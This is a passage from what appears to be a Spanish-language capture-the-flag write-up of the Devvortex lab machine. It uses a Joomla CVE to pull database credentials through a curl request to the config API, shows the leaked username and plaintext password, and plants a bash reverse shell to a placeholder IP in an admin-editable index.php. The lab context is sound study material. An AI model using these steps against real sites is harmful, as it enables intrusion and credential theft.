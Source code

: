 Usando ese CVE podemos  intentar extraer datos sensibles de la página:
```shell
curl -s -X GET http://dev.devvortex.htb/api/index.php/v1/config/application?public=true | jq
```
obtenemos un ususario y una contraseña de la base de datos de msqli ademas de un posible usuario y contraseña para el panel de login de Jommla

```shell 
{
      "type": "application",
      "id": "224",
      "attributes": {
        "user": "lewis",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "password": "P4ntherg0t1n5r3c0n##",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "db": "joomla",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "dbprefix": "sd4fg_",
        "id": 224
      }
    },
```

### Intrusión en el panel de administrador de Joomla

Parece que hemos podido acceder al panel de administrador por lo tanto hay algunos ficheros que son sensibles que podemos editar. 

En concreto podemos ver que en el apartado de `settings`encontramos un fichero `index.php`que podemos editar es donde voy a intentar establar una revershell utilizando `nc`

```shell
system("bash -c 'bash -i >& /dev/tcp/<IP>/443 0>&1'");
```
